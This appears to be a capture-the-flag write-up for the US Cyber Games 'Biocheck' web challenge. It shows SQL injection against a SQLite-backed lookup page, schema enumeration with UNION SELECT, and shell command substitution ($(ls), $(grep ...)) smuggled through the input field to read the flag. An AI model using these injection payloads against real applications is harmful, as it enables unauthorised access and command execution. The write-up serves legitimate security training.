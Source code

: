 ```yaml
---
title: US Cyber Games [Season 4] - Biocheck
date: Mon Jun  3 03:05:08 PM EDT 2024
categories: [Writeup]
tags: [ctf,uscybergames,uscybergames2024,web,sqli,rce]
---
```


## Description

Biocheck [Web]

ARIA has started making simple applications to display their intelligence, but they're still in a rough state. Break in, and discover the critical information!

[https://uscybercombine-s4-biocheck.chals.io/](https://uscybercombine-s4-biocheck.chals.io/)

## Solution

We can query information about Historical figures, but we are limited to few people

![Bio Check](/assets/images/USCyberGames/2024/Bio Check.png)

If we inject quote (`'`) we get 500 error, meaning there's probably SQL query used
![Bio Check-1](/assets/images/USCyberGames/2024/Bio Check-1.png)

Check if SQLite3: `Albert Einstein' UNION SELECT sqlite_version(); -- -`
![Bio Check-2](/assets/images/USCyberGames/2024/Bio Check-2.png)

[PayloadsAllTheThings/SQL Injection/SQLite Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version)

```sql
' UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%
> figures

' UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='figures
> CREATE TABLE figures (
	id INTEGER PRIMARY KEY,
	name TEXT NOT NULL,
	bio TEXT NOT NULL
)
```

The database only holds figure records and that's it. 

I was testing for SSTI since it's a Python server, but was going nowhere. Then I tried 
{% raw %} `${{7*7}}` {% endraw %} 
and the app crashed (added dollar), why? I think the only programming language that treats dollars as special characters is PHP or Bash, we are on Python server so that leaves Bash. Trying `$0` shell variable we get runner program name:
![Bio Check-3](/assets/images/USCyberGames/2024/Bio Check-3.png)

Payload: `'; SELECT '$(ls)'; -- -`
![Bio Check-4](/assets/images/USCyberGames/2024/Bio Check-4.png)

Payload: `' UNION SELECT '$(grep "SIVBGR" . -Rain)' -- -`

![Bio Check-5](/assets/images/USCyberGames/2024/Bio Check-5.png)

> Flag: **SIVBGR{H1st0ry_1s_1mp0rt4nt!}**
{: .prompt-tip }

